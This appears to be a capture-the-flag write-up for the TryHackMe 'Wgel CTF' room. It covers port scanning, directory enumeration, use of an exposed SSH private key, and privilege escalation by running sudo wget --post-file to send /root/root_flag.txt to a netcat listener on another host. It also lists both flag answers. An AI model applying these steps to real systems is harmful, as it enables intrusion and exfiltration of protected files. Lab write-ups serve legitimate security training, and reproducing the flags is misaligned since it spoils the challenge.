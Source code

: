 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

> Can you exfiltrate the root flag?

## Scanning

Scan ports using nmap

```bash
nmap -A -T4 10.10.200.215
```

![image](https://user-images.githubusercontent.com/90561566/181027998-0357866b-5df3-48c6-b163-f1d431bc4704.png)

We found 2 open ports 22 (ssh) and 80 (http)

## HTTP

We access the web service by http on port 80

![image](https://user-images.githubusercontent.com/90561566/181027874-748cd312-aa24-459a-a4ac-7b51ef44c820.png)

View source and we can see a announcement on line 278

![image](https://user-images.githubusercontent.com/90561566/181028450-ff1a8df0-6115-4ec3-966c-b453551713ab.png)

"jessie" is name of 1 user on the server

## Enumeration

We use gobuster to enummerate directory on web server

```bash
gobuster dir -u http://10.10.200.215/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/181032124-78c1f9f4-0bce-4f63-8231-4a7cad25489e.png)

We access to /sitemap/ directory, we find a corporate web

![image](https://user-images.githubusercontent.com/90561566/181033371-2cff1ae6-318d-42f7-9694-90e3d3555d0e.png)

We try gobuster against this page

```bash
gobuster dir -u http://10.10.200.215/sitemap/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/181034287-2bee7a43-0d83-4d54-9882-df62de22ed14.png)

we found  ".ssh" directory with id_rsa file

![image](https://user-images.githubusercontent.com/90561566/181034614-c1843616-7ac9-44c8-83c6-1deff81801a6.png)

![image](https://user-images.githubusercontent.com/90561566/181034966-d8deb25d-3994-45d2-9126-4b9cefcc5a28.png)

## Exploitation

We can ssh with "jessie" user using id_rsa file

```
wget http://10.10.200.215/sitemap/.ssh/id_rsa
chmod 600 id_rsa
ssh jessie@10.10.200.215 -i id_rsa
```

![image](https://user-images.githubusercontent.com/90561566/181036890-4b5a6609-63bd-4434-a632-566ef3d5c00d.png)

```
find . -name *flag*
```

![image](https://user-images.githubusercontent.com/90561566/181037505-9a8e67b9-a5c0-4ee1-abe4-78ccd5500e4a.png)

| Flag | User flag |
| --- | --- |
| Answer | 057c67131c3d5e42dd5cd3075b198ff6 |

## Privilege Escalation

```
sudo -l -l
```

![image](https://user-images.githubusercontent.com/90561566/181039891-2844e58b-83ea-442c-857a-02f254da3928.png)

Only user/bin/wget allowed as suoder

We we put a netcat listening and use the flag "wget --post-file" to get root flag

```
nc -lvnp 4444
# another terminal
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.10.149.210:4444
```

And just like that, I got the root_flag.txt

![image](https://user-images.githubusercontent.com/90561566/181043212-652b3629-6fb9-4c64-9abb-506afbae4809.png)

| Flag | Root flag |
| --- | --- |
| Answer | b1b968b37519ad1daa6408188649263d |




















